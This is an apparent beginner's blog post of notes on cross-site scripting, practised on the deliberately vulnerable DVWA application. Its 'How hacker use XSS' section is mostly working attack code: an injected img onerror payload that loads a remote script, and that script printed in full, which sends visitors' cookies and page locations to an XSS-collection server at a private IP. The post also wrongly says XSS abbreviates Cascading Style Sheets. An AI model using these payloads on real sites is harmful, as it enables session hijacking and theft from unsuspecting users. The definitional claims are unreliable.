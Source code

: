 ```yaml
---
layout: title
title: How to use XSS
date: 2018-12-17 09:11:06
tags: security
categories: Hack
---
```


After following the hack101 video tutorial for a while. I want to write some note about XSS. 

## What is XSS

XSS(Cross Site Scripting) is the mix abbreviation for Cascading Style Sheets, CSS. Though it seems out of date at the moment. But to some beginner just like me, it's a good way to experience the fun of looking bugs. 

## XSS detecting
People can deploy a DVWA as a dev environment for testing the XSS.

At the lowest security level of DVWA, the client owns no filter to any users input. It means, input is the output. 

The simplest XSS detecting is the `alert(1)`. Whether create a div or inject a `<script>alert(1)</script>`, the things we focus on is compile the code. 

## How hacker use XSS
Sometimes, when the security developer found that bug, he will terminate the XSS, that is one of his duty. But as a cursorily, he needs to use those bug to find why a way to hackin the inside. 
If the website exists XSS loophole, then it must be able to run the js code.

e.g. we can get the cookies on the page by enter alert(document.cookie). But most of time, hacker don't just inject a snippet of code, since it is no reason to use their own cookie. But they can send the cookies to a platform. Like XSSer, receive the XSS from all over the world. 

When xsser has done, hacker can insert the script into page like this: 

```
<img   onerror="s=createElement('script');body.appendChild(s);s.src='http://192.168.1.103/xss/SMA9ST';" src="x">
```

This is a img tag, the src is point to `x`. Obviously, this address is not exists. So it will run `onerror`. This function will generate a script tag, then point the new script tag to the xsser platform, which we builded before. Once the code request to the xsser. It will get the code, e.g.

```
(function() {
		(new Image()).src = 'http://192.168.1.103/xss/index.php?do=api&id=SMA9ST&location=' + escape((function() {
			try {
				return document.location.href
			} catch (e) {
				return ''
			}
		})()) + '&toplocation=' + escape((function() {
			try {
				return top.location.href
			} catch (e) {
				return ''
			}
		})()) + '&cookie=' + escape((function() {
			try {
				return document.cookie
			} catch (e) {
				return ''
			}
		})()) + '&opener=' + escape((function() {
			try {
				return (window.opener && window.opener.location.href) ? window.opener.location.href : ''
			} catch (e) {
				return ''
			}
		})());
	})();
```

In this code snippet, it also generate a image object and request a xsser project. Than we got the location information and cookies. 

Everytime when people open XSS page, the browser will run that kind of code, it mask as a image to send data to xsser.

That is the simple usage of XSS.

